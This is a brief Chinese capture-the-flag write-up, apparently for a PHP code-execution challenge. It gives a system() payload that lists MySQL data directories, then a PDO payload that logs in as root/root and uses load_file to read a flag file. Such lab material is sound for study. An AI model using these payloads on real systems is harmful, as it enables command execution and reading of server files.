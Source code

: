 # 知识点

# 思路
```php
?c=system("ls /var/lib/mysql/");
```
可以现在其他题目中找到数据库名<br />![image.png](./images/20231017_2351079174.png)<br />通过pdo使用数据库访问数据
```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```
